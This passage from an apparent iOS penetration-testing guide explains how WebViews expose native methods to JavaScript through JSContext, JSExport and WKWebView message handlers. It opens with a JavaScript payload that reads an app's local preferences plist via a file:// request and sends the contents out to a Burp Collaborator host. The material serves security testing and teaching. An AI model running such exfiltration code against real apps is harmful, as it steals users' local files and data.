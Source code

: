 ```javascript
        var xhr2 = new XMLHttpRequest();
        xhr2.open('GET', 'http://187e2gd0zxunzmb5vlowsz4j1a70vp.burpcollaborator.net/'+xhr.responseText.hexEncode(), true);
        xhr2.send(null);
    }
}
xhr.open('GET', 'file:///var/mobile/Containers/Data/Application/ED4E0AD8-F7F7-4078-93CC-C350465048A5/Library/Preferences/com.authenticationfailure.WheresMyBrowser.plist', true);
xhr.send(null);
```

## Native Methods Exposed Through WebViews

Since iOS 7, Apple introduced APIs that allow **communication between the JavaScript runtime in the WebView and the native** Swift or Objective-C objects.

There are two fundamental ways of how native code and JavaScript can communicate:

* **JSContext**: When an Objective-C or Swift block is assigned to an identifier in a `JSContext`, JavaScriptCore automatically wraps the block in a JavaScript function.
* **JSExport protocol**: Properties, instance methods and class methods declared in a `JSExport`-inherited protocol are mapped to JavaScript objects that are available to all JavaScript code. Modifications of objects that are in the JavaScript environment are reflected in the native environment.

Note that **only class members defined in the `JSExport`** protocol are made accessible to JavaScript code.\
Look out for code that maps native objects to the `JSContext` associated with a WebView and analyze what functionality it exposes, for example no sensitive data should be accessible and exposed to WebViews.\
In Objective-C, the `JSContext` associated with a `UIWebView` is obtained as follows:

```objectivec
[webView valueForKeyPath:@"documentView.webView.mainFrame.javaScriptContext"]
```

JavaScript code in a **`WKWebView` can still send messages back to the native app but in contrast to `UIWebView`, it is not possible to directly reference the `JSContext`** of a `WKWebView`. Instead, communication is implemented using a messaging system and using the `postMessage` function, which automatically serializes JavaScript objects into native Objective-C or Swift objects. Message handlers are configured using the method [`add(_ scriptMessageHandler:name:)`](https://developer.apple.com/documentation/webkit/wkusercontentcontroller/1537172-add).

### Enabling JavascriptBridge

```swift
func enableJavaScriptBridge(_ enabled: Bool) {
    options_dict["javaScriptBridge"]?.value = enabled
    let userContentController = wkWebViewConfiguration.userContentController
    userContentController.removeScriptMessageHandler(forName: "javaScriptBridge")

    if enabled {
            let javaScriptBridgeMessageHandler = JavaScriptBridgeMessageHandler()
            userContentController.add(javaScriptBridgeMessageHandler, name: "javaScriptBridge")
    }
}
```
